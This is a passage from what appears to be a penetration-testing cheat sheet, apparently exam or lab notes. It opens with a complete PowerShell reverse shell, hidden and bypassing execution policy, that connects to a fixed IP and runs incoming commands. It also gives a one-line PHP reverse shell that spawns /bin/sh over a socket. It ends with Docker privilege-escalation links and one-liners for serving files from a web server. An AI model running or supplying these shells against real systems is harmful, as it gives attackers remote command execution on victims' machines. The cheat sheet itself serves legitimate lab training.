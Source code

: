 ```bash
powershell -NoP -NonI -W Hidden -Exec Bypass "& {$ps=$false;$hostip='192.168.49.74';$port=445;$client = New-Object System.Net.Sockets.TCPClient($hostip,$port);$stream = $client.GetStream();[byte[]]$bytes = 0..50000|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$cmd=(get-childitem Env:ComSpec).value;$inArray=$data.split();$item=$inArray[0];if(($item -eq '$ps') -and ($ps -eq $false)){$ps=$true}if($item -like '?:'){$item='d:'}$myArray=@('cd','exit','d:','pwd' ,'ls','ps','rm','cp','mv','cat');$do=$false;foreach ($i in $myArray){if($item -eq $i){$do=$true}}if($do -or $ps){$sendback=( iex $data 2>&1 |Out-String)}else{$data2='/c '+$data;$sendback = ( &$cmd $data2 2>&1 | Out-String)};if($ps){$prompt='PS ' + (pwd).Path}else{$prompt=(pwd).Path}$sendback2 = $data + $sendback + $prompt + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()}"

# PHP most simple Linux
<?php $sock = fsockopen("10.11.1.111",1234); $proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);?>
```

# **Privilege escalation**

## Common

```
# Docker
https://www.notsosecure.com/anatomy-of-a-hack-docker-registry/

https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout

https://gtfobins.github.io/gtfobins/docker/

# Docker Escape 

Proving Grounds Sirol / Peppo
```

### Set up Webserver

```
python -m SimpleHTTPServer 8080

python3 -m http.server 8080

php -S 0.0.0.0:8080

ruby -run  -e -httpd . -p 8080

https://github.com/sc0tfree/updog
updog
```

### Set up FTP Server
